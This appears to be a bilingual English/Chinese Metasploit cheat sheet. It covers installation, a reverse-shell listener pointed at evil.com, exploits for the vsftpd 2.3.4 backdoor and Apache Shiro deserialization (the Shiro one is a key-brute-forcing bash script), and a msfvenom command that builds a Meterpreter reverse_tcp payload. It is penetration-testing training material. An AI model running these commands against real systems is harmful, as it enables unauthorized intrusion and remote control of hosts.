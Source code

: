 The world’s most used penetration testing framework.

## 1. Install

安装

```
┌──(nemo@debian)-[~]
└─$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall \
&& chmod 755 msfinstall \
&& ./msfinstall && rm -f ./msfinstall
```

## 2. Init

```
┌──(nemo@debian)-[~]
└─$ msfdb init
```

## 3. Usage

### 3.1. msfconsole

启动数据库

```
┌──(nemo@debian)-[~]
└─$ msfdb start
```

进入控制台

```
┌──(nemo@debian)-[~]
└─$ msfconsole
```

Listen

```
msf > use exploit/multi/handler
show payloads
set PAYLOAD linux/x86/meterpreter/reverse_tcp
show options
set LHOST evil.com
set LPORT 4444
run
```

Exploit

```
msf > search vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
show payloads
set PAYLOAD cmd/unix/interact
show options
set RHOSTS example.com
set RPORT 80
set LHOST/CHOST evil.com
set LPORT/CPORT 4444
set TARGET 0
check
run
```

Script

```
#!/bin/bash

RHOSTS="example.com"
RPORT="80"
MODULE="exploit/multi/http/shiro_rememberme_v124_deserialize"
PAYLOAD="cmd/unix/reverse"
LHOST="evil.com"
LPORT="4444"
KEYFILE="$HOME/shiro_keys.txt"

while IFS= read -r KEY || [ -n "$KEY" ]; do
  echo "[*] Key: $KEY"
  msfconsole -q -x "use ${MODULE}
set RHOSTS ${RHOSTS}
set RPORT ${RPORT}
set ENC_KEY ${KEY}
set PAYLOAD ${PAYLOAD}
set LHOST ${LHOST}
set LPORT ${LPORT}
exploit
exit" 

done < "$KEYFILE"

```

```
msf > help       # 列出所有命令帮助
<command> -h     # 列出指定命令的常用帮助
help <command>   # 列出指定命令的完整帮助
back             # 返回
exit             # 退出
check            # 探测漏洞
run              # 执行模块
run -j           # 后台执行模块
jobs             # 列出后台任务
jobs -v          # 列出后台任务详情
jobs -K <Id>     # 终止所有后台任务
jobs -k <Id>     # 终止指定后台任务
sessions         # 列出会话
sessions -i <Id> # 进入会话
sessions -k <Id> # 终止会话
```

### 3.2. msfvenom

生成病毒

```
┌──(nemo@debian)-[~]
└─$ msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=evil.com LPORT=4444 -f elf -o ./venom
```

---

References

- [Metasploit](https://www.metasploit.com/)
- [Installing Metasploit on Linux / macOS](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)

